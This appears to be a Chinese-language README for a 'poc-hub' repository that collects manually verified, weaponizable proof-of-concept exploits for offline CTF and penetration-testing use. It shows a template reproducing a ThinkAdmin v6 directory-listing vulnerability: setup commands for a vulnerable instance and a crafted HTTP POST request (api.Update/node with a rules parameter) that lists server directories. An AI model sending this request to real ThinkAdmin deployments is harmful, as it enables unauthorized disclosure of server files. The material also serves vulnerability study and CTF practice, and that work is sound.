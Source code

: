 # poc-hub
此项目源于要参加一场线下的CTF决赛，由于断网，故需要大量本地poc，考虑到也可为日后的渗透测试工作提供便利  
当前仓库没有漏洞分析只有POC，且都是经过手动验证的可武器化的

漏洞复现模板如下：
```
# 0x00 软件介绍
基于ThinkPHP，专注于微信领域后台管理的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2020.08.03.1之前的某一个v6版本：https://github.com/179776823/ThinkAdmin

# 0x02 环境搭建
目标环境：2008_r2_standard_zh-chs + phpstudy + https://github.com/179776823/ThinkAdmin

composer config -g repo.packagist composer https://mirrors.aliyun.com/composer#使用阿里云的源更快一些  
https://github.com/179776823/ThinkAdmin#下载有漏洞的v6版本到phpstudy的对应目录下  
cd ThinkAdmin  
composer install  
create database admin_v6;  
create user 'admin_v6'@'localhost' identified by 'FbYBHcWKr2';#用户名密码来自config\database.php  
grant all on admin_v6.* to 'admin_v6'@'localhost';  
use admin_v6;  
source C:\phpstudy_pro\WWW\ThinkAdmin-6\admin_v6.sql;#将数据导入数据库  
访问：http://127.0.0.1:81/ThinkAdmin-6/public/index.php  
参考链接：  
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw  
https://thinkadmin.top/install  
https://www.cnblogs.com/Dot-Boy/archive/2008/08/04/1260185.html  
https://www.jianshu.com/p/d7b9c468f20d  
https://github.com/xuxuedong/personal-note/tree/master/2020_10_18_%E7%BD%91%E7%AB%99%E6%90%AD%E5%BB%BA%E4%BB%8E%E5%A4%B4%E8%AE%B0%E5%BD%95

# 0x03 利用条件
无

# 0x04 影响版本
作者原话：2020.08.03.01，≤这个版本的都有可能存在漏洞  
参考链接：  
https://github.com/zoujingli/ThinkAdmin/issues/244

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64 + Burp_Suite_Pro_v2020.5.1

访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php/admin/login.html  
burp抓包，将数据包修改如下：  
```
POST /ThinkAdmin-6/public/index.php/admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```
成功列出了目录，如下图  
![image](./0.png)

# 0x06 踩坑记录
无

# 0x07 参考链接
无
```
